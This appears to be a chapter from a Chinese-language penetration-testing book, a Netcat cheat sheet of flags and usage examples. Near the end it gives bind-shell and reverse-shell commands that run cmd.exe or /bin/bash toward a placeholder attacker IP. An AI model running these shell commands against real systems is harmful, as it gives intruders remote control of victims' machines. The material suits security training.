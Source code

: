 # 第十四章：Netcat 备忘单

Netcat 是一款瑞士军刀工具，兼容 Linux 和 Windows。它既可以作为 TCP 客户端，也可以作为 UDP 客户端和服务器。

# Netcat 命令标志

+   `-l`: 监听模式（默认是客户端模式）。

+   `-L`: 更强的监听，仅在 Windows 版本的 Netcat 中支持。此选项使 Netcat 成为持久的监听器，在客户端断开连接后会重新开始监听。

+   `-u`: UDP 模式（默认是 TCP）。

+   `-p`: 本地端口（在监听模式下，这是监听的端口）。

+   `-e`: 连接建立后执行的程序。

+   `-n`: 不对另一端机器的名称进行 DNS 查找（名称解析）。

+   `-z`: 零 I/O 模式。

+   `-w(N)`: 连接超时时间。带有此选项的 Netcat 客户端或监听器将等待 *N* 秒以建立连接。例如，`w1` 或 `w2`。

+   `-v`: 详细模式。

+   `-vv`: 非常详细的输出。

# 实际例子

你在本书中已经学习了如何使用 Netcat。接下来的列表中，你将看到一些常见的实用例子：

+   **横幅抓取（HTTP）**：

```
nc -vn 10.1.1.100 80
```

按下 *Enter* 键执行命令后，输入任何内容，如 `Hello SERVER`，然后服务器会返回横幅头信息。

+   **简单聊天**：开始输入应该发送给对方的消息：

    +   设置并在一端监听：

```
nc -v -lp 1234
```

+   +   在另一端，连接到监听器：

```
nc -v [Remote IP] 1234
```

+   **传输文件**：

    +   在一端监听：

```
nc -vn -lp 1234 > file.txt
```

+   +   从另一端发送文件：

```
nc -vn <other side remote IP> 1234 < file.txt
```

+   **绑定 shell**：

    +   假设受害者是 Windows 机器，开始监听：

```
nc -lvp 1234 -e cmd.exe
```

+   +   从攻击者机器连接到受害主机：

```
nc -vn [Victim IP] 1234
```

+   **反向 shell 绕过防火墙**：

    +   开始在攻击者机器（Kali Linux）上监听：

```
nc -nlvp 1234
```

+   +   如果受害者使用的是 Windows 机器，输入以下命令：

```
nc -vn [Attacker IP] 1234 -e cmd.exe 
```

如果受害者使用的是 Linux 机器，则应使用 `-e /bin/bash`。
